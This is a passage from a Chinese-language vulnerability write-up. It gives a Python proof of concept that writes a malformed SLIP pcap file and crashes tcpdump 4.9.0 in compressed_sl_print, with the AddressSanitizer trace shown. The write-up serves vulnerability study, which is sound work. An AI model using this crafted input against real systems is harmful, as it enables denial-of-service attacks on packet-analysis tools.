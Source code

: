 最后：

```text
$ sudo make install
$ tcpdump --version
tcpdump version 4.9.0
libpcap version 1.7.4
```

使用下面的 poc 即可成功地触发漏洞产生 Segment Fault：

```python
import os

def sigsegv():
    buf  = "\xd4\xc3\xb2\xa1\x02\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    buf += "\x00\x00\x04\x00\x08\x00\x00\x00\xf6\xb5\xa5X\xf8\xbd\x07\x00'"
    buf += "\x00\x00\x006\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7"
    buf += "\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xca\x00"
    buf += "\x00RT\x00\x125\x02\x08\x00'\xbd\xc8.\x08\x00"

    with open("slip-bad-direction.pcap", "wb") as f:
        f.write(buf)
        f.close()

    cmd = 'tcpdump -e -r slip-bad-direction.pcap'
    os.system(cmd)

if __name__ == "__main__":
    sigsegv()
```

```text
$ python poc.py
reading from file slip-bad-direction.pcap, link-type SLIP (SLIP)
ASAN:SIGSEGV
=================================================================
==11084==ERROR: AddressSanitizer: SEGV on unknown address 0x08425c5c (pc 0x0815f697 bp 0x00000027 sp 0xbfae3ab0 T0)
    #0 0x815f696 in compressed_sl_print print-sl.c:253
    #1 0x815f696 in sliplink_print print-sl.c:166
    #2 0x815f696 in sl_if_print print-sl.c:77
    #3 0x8060ecf in pretty_print_packet print.c:339
    #4 0x8055328 in print_packet tcpdump.c:2501
    #5 0xb7203467  (/usr/lib/i386-linux-gnu/libpcap.so.0.8+0x1c467)
    #6 0xb71f40e2 in pcap_loop (/usr/lib/i386-linux-gnu/libpcap.so.0.8+0xd0e2)
    #7 0x8051218 in main tcpdump.c:2004
    #8 0xb7049636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)
    #9 0x8054315  (/usr/local/sbin/tcpdump.4.9.0+0x8054315)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV print-sl.c:253 compressed_sl_print
==11084==ABORTING
```
